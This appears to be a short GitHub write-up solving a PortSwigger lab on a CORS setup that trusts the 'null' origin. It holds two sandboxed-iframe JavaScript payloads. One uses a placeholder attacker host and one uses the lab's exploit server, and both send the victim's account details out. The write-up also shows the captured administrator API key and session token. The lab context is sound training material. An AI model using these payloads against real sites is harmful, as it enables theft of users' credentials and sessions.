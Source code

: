 # CORS vulnerability with trusted null origin

## This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts the "null" origin.

## To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login with credentials
go to burpsuite and see history
like the lab1
account detils
add origin: null
it will response
Access-Control-Allow-Origin: null

### step2

use this script

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','vulnerable-website.com/sensitive-victim-data',true); 
	req.withCredentials = true; 
	req.send(); 

	function reqListener() { 
	location='malicious-website.com/log?key='+this.responseText; 
	}; 
</script>"
></iframe>
```

change with la credentials

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','https://0a0000f304ad0b4881dc70fa00fb0055.web-security-academy.net/accountDetails',true); 
	req.withCredentials = true; 
	req.send(); 

	function reqListener() { 
	location='https://exploit-0a72000b04740b5381246f72014b006f.exploit-server.net//log?key='+this.responseText; 
	}; 
</script>"
></iframe>
```

deliver to victim and go to /log

```javascript
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22znykYDb92N2mZpPTZgqr3E1RmspfMdtx%22,%20%20%22sessions%22:%20[%20%20%20%20%22aaBpaigppio0v0fLpmXC67hxZodS1og4%22%20%20
```

decode

```javascript
  "username": "administrator",  "email": "",  "apikey": "znykYDb92N2mZpPTZgqr3E1RmspfMdtx",  "sessions": [    "aaBpaigppio0v0fLpmXC67hxZodS1og4"
```

sumit and lab solve
